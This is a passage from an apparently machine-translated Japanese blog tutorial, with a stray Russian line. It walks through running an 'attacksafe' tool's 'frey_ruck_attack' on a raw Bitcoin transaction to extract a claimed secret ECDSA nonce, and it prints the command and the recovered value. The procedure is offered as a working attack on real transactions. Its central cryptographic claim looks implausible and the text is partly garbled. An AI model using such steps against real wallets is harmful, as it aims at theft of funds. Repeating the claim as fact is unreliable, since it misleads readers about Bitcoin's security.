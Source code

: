 

<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-49-1024x318.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-980"/></figure>



<p>この攻撃は から開始され<code>-tool frey_ruck_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-51-1024x484.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-986"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x80ae47bd5353515bc5c39bad5a9ac124b0be808260bbaf1cda1458a078f0c226

RawTX = 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x80ae47bd5353515bc5c39bad5a9ac124b0be808260bbaf1cda1458a078f0c226</code></p>
